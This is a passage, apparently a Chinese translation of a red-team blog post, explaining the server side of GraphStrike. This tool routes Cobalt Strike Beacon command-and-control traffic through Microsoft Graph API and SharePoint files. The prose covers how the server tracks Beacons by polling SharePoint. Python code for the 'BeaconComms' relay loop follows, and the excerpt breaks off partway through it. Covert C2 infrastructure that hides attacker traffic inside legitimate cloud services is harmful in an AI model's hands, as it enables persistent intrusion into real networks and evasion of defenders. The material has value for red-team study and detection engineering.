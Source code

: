"CheckBeacons" 开始通过进行 Graph API 请求，获取用于 GraphStrike 的特定 SharePoint 驱动器中存储的所有文件的列表。此查询返回的每个文件都与一个 Cobalt Strike Beacon 相关联，并添加到内部数据结构中进行跟踪。"CheckBeacons " 的后续调用再次获取此列表（该函数每半秒运行一次），并将其与内部模型中的数据进行比较；两者之间的差异作为服务器行为改变的信号。

在 SharePoint 中出现的每个新文件都代表一个全新的 Beacon，或者至少是与现有 TS 任务文件配对的新 Beacon 输出文件。Beacon 的 TS 任务文件和 Beacon 输出文件天然相关联，服务器利用这种关系和每个文件的状态作为其流控制策略的一部分。上一节中已经讨论了其中一些内容，涉及到在从 TS 发送更多任务之前等待 Beacon 下载并清空任务文件。实际上，服务器中的所有复杂性都涉及到需要符合 Beacon HTTP 事务生命周期的需求。服务器跟踪的每个 Beacon 都有一些相关的变量，用于更新、切换或引用，以便促进这一过程。即使对我来说，试图通过代码片段来追踪所有这些变量也会感到困惑，所以我选择保持细节简洁。

服务器为找到的每个唯一的 TS 任务文件启动一个新线程；每个线程代表一个 Beacon。此线程运行名为 "BeaconComms" 的函数，它是一个无限循环，用于为单个 Beacon 进行通信：

```plain
def BeaconComms(fileName):

    # Retrieve entry from dictionary
    comms = masterTracker[fileName]

    # Run in endless loop
    while True:

        # Block here depending on state of taskingReady event handler
        comms['taskingReady'].wait()

        # If killThread is true, a TS task has been queued for Beacon without it retrieving it for longer than
        # the allowed timeout and this BeaconComms channel has been signaled to exit to conserve resources.
        if comms['state'].state == 'timeout' and comms['killThread']:
            p_info(f"Beacon {comms['beaconId']}: timed out -> killing thread.")
            return

        # Send Beacon http-get to TS + return any tasking
        tasking = SendGetToTS(fileName, False)

        # If TS returned data, we need to upload it to the TS tasking file
        if len(tasking) > 0:
            UploadFile(fileName, tasking)

            # Clear taskingReady event handler so that we will block at the start of next loop until we see
            # that Beacon has received + cleared the TS tasking file
            comms['taskingReady'].clear()

        # Get current time before waiting for signal
        bt = datetime.datetime.now(datetime.timezone.utc)

        # Wait until we are signaled that Beacon has output, up to a max of the Beacon's sleep time
        comms['outputReady'].wait(comms['sleepTime'])

        # If the sleep ended because we were signaled, retrieve it and send to TS
        if comms['outputReady'].is_set():

            # If state is removing + killThread has been signaled, kill Beacon thread here.
            if (comms['state'].state == 'removing') and comms['killThread']:
                p_info(f"Beacon {comms['beaconId']}: removed from CS -> killing thread")
                return

            # Clear event handler so that we will block again in the future on this Beacon output file
            comms['outputReady'].clear()

            # Download the Beacon output file
            data = DownloadFile(comms['http-post'])

            # Zero out the Beacon output file to signal Beacon we have received the last
```